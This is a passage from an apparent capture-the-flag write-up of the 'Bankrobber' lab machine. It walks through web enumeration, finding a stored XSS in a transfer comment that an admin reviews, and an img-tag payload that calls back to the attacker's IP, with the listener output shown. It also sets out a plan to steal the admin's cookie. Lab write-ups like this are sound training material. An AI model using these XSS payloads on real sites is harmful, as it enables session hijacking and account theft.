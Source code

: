 It finds the following directories:
- _/user_
  ```
  You're not authorized to view this page
  ```
- _/admin_
  ```
  You're not authorized to view this page
  ```
- _/phpmyadmin_ (403 Forbidden)
  ```
  New XAMPP security concept:
  Access to the requested object is only available from the local network.
  This setting can be configured in the file "httpd-xampp.conf".
  ```

It finds the following PHP files:
- _/login.php_
  - Forwards to _index.php_
- _/register.php_
  - Blank page
- _/link.php_
  - Blank page

After registering, it forwards to _/index.php?msg=User%20created_.
After login, it forwards to _/user_ and there is a feature to transfer E-coin:

![Transfer E-Coin](https://kyuu-ji.github.io/htb-write-up/bankrobber/bankrobber_web-2.png)

When sending any amount to any ID, it shows a message, that an admin will review it:
```
Transfer on hold. An admin will review it within a minute.
After that he will decide whether the transaction will be dropped or not.
```

Whenever a person has to review something, it looks like it could be possible to exploit a **Cross-Site-Scripting vulnerability**.
Lets test this by sending a simple XSS payload in the comment field and wait if a connections comes back:
```
<img src=http://10.10.14.14/test.jpg />
```

After a while, the listener on my IP and port 80 got a response from the admin:
```
Ncat: Connection from 10.10.10.154:50158.
GET /test.jpg HTTP/1.1
Referer: http://localhost/admin/index.php
User-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
(...)
```

### Cross-Site-Scripting (XSS)

The goal of the XSS vulnerability is to get the cookie of the admin to hijack the session and get into the admin portal.
Therefore we need to know how the cookie on the page is stored by looking at our own current cookie:
```
Cookie: id=3; username=dGVzdHVzZXI%3D; password=UGFzczEyMw%3D%3D
```
